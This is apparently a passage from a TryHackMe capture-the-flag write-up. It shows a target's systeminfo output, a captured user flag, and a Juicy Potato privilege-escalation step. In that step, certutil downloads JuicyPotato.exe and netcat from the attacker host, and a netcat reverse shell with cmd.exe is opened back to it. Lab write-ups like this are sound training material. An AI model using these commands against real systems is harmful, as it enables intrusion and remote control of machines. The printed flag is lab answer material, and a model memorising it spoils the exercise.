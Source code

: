 ```
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     512 MB
Available Physical Memory: 172 MB
Virtual Memory: Max Size:  1,536 MB
Virtual Memory: Available: 884 MB
Virtual Memory: In Use:    652 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB3192137
                           [02]: KB3211320
                           [03]: KB3213986
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.150.121
                                 [02]: fe80::24d0:b542:122d:83cd
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.


```
# User flag
```
c:\> cd c:\Users\Bob\Desktop
c:\Users\Bob\Desktop>type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}

```
# Root flag
The Easiest way would be to get meterpreter session, and then  `getsystem` to get highest privilege, and it works fine)
However, let's avoid using metasploit.

## Potato Attack
Considering privileges that the user has, possible PrivEsc is potato attack:
it can be downloaded from https://github.com/ohpe/juicy-potato/releases
onto Kali. 
```bash
# on kali
l 
# GetCLSID.ps1  JuicyPotato.exe  nc.exe 
python3 -m http.server  
nc -lvnp 4444

# on windows
certutil -urlcache -f -split http://10.8.97.245:8000/JuicyPotato.exe
certutil -urlcache -f -split http://10.8.97.245:8000/nc.exe

# on windows
JuicyPotato.exe -l 1337 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\nc.exe -e cmd.exe 10.8.97.245 4444" -t *
```
